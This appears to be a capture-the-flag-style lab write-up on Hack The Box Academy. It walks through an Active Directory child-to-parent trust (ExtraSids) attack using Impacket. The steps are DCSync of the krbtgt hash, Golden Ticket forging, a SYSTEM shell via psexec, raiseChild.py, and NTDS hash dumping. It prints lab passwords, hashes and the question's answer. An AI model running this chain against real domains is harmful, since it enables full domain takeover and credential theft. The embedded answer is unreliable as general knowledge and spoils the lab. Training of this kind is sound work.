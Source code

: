 <div align='center'>

# **Lab 23: Attacking Domain Trusts - Child -> Parent Trusts - from Linux** 

</div>

Note: the `htb-student_adm` account with password `HTB_@cademy_stdnt_admin!` is on the LOGISTICS domain controller, which is a child domain of the INLANEFREIGHT domain.

This attack allows for the compromise of a parent domain once the child domain has been compromised

We'll need to gather the same bits of information:

- The KRBTGT hash for the child domain
- The SID for the child domain
- The name of a target user in the child domain (does not need to exist!)
- The FQDN of the child domain
- The SID of the Enterprise Admins group of the root domain

**Performing DCSync with secretsdump.py**

```zsh
secretsdump.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt
```

![](../imgs/Lab/Lab23/1.png)

**Performing SID Brute Forcing using lookupsid.py**

The child domain SID

```zsh
lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 | grep "Domain SID"
```

![](../imgs/Lab/Lab23/2.png)

The Enterprise Admins group SID

```zsh
lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.5 | grep "Domain SID"
```

![](../imgs/Lab/Lab23/3.png)

We have gathered the following data points:

- The KRBTGT hash for the child domain: `9d765b482771505cbe97411065964d5f`
- The SID for the child domain: `S-1-5-21-2806153819-209893948-922872689`
- The name of a target user in the child domain (does not need to exist to create our Golden Ticket!): We'll choose a fake user: `hacker`
- The FQDN of the child domain: L`OGISTICS.INLANEFREIGHT.LOCAL`
- The SID of the Enterprise Admins group of the root domain: `S-1-5-21-3842939050-3880317879-2865463114-519`

**Constructing a Golden Ticket using ticketer.py**

```zsh
ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker
```

![](../imgs/Lab/Lab23/4.png)

The ticket will be saved down to our system as a credential cache (ccache) file, which is a file used to hold Kerberos credentials

**Setting the KRB5CCNAME Environment Variable**

Setting the KRB5CCNAME environment variable tells the system to use this file for Kerberos authentication attempts

```zsh
export KRB5CCNAME=hacker.ccache 
```

**Getting a SYSTEM shell using Impacket's psexec.py**

```zsh
psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5
```

![](../imgs/Lab/Lab23/5.png)

**Performing the Attack with raiseChild.py**

```zsh
raiseChild.py -target-exec 172.16.5.5 LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm
```

![](../imgs/Lab/Lab23/6.png)

**Question**: Perform the ExtraSids attack to compromise the parent domain from the Linux attack host. After compromising the parent domain obtain the NTLM hash for the Domain Admin user bross. Submit this hash as your answer.

Get the administator hash in the output of the `raiseChild.py` command: `aad3b435b51404eeaad3b435b51404ee:88ad09182de639ccc6579eb0849751cf`

```zsh
secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/administrator@172.16.5.5 -hashes aad3b435b51404eeaad3b435b51404ee:88ad09182de639ccc6579eb0849751cf
cat inlanefreight_hashes.ntds | grep bross
```

![](../imgs/Lab/Lab23/7.png)


